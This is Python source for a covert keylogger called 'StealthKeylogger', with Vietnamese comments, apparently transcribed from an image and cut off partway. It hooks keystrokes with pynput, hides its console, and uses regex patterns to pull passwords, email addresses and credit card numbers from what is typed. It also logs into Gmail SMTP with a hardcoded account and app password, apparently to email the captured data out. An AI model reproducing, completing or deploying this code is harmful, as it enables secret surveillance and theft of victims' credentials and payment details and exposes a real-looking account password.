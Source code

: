 import time
import os
from datetime import datetime
from pathlib import Path
from pynput.keyboard import Listener, Key
import threading
import smtplib
from email.mime.text import MIMEText
from email.mime.multipart import MIMEMultipart
import getpass
import re
import base64

# Cấu hình email
EMAIL_ADDRESS = "luutiendat1811@gmail.com"  
EMAIL_PASSWORD = "dbodaxtewdwhrlmi"    
EMAIL_CHAR_LIMIT = 50                   

# Cấu hình stealth
HIDE_CONSOLE = True
BUFFER = []
BUFFER_SIZE = 20
STOP_EVENT = threading.Event()
LOG_FILE = Path("keystrokes.log")

# Patterns để detect sensitive data
PASSWORD_PATTERNS = [
    r'password[:=]\s*([^\s]+)',
    r'pass[:=]\s*([^\s]+)', 
    r'pwd[:=]\s*([^\s]+)',
    r'login[:=]\s*([^\s]+)'
]

EMAIL_PATTERN = r'\b[A-Za-z0-9._%+-]+@[A-Za-z0-9.-]+\.[A-Z|a-z]{2,}\b'
CREDIT_CARD_PATTERN = r'\b(?:\d{4}[-\s]?){3}\d{4}\b'

class StealthKeylogger:
    def __init__(self):
        self.current_text = ""
        self.full_log = ""
        self.session_start = datetime.now()
        self.smtp_session = None
        self.current_window = "Unknown Window"
        self.credentials_found = []
        self.setup_smtp()
        
    def setup_smtp(self):
        """Thiết lập kết nối SMTP với Gmail"""
        try:
            self.smtp_session = smtplib.SMTP('smtp.gmail.com', 587)
            self.smtp_session.starttls()
            self.smtp_session.login(EMAIL_ADDRESS, EMAIL_PASSWORD)
            print("✓ Connected to Gmail SMTP server")
        except Exception as e:
            print(f"✗ Failed to connect to SMTP: {e}")
            